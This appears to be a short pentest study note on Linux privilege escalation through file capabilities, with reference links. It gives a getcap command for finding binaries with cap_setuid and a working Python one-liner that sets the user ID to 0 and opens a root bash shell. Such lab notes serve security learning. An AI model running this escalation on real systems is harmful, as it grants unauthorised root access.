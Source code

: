 #Linux #PrivEsc #Capabilities #setuid

[Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

[SUID vs Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)

[Linux Capabilities Privilege Escalation](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

## **Detection**
Linux VM
==Capabilities are modern SUID==
1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the “`cap_setuid`” capability.

## **Exploitation**
Linux VM

1. In command prompt type:
`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Enjoy root!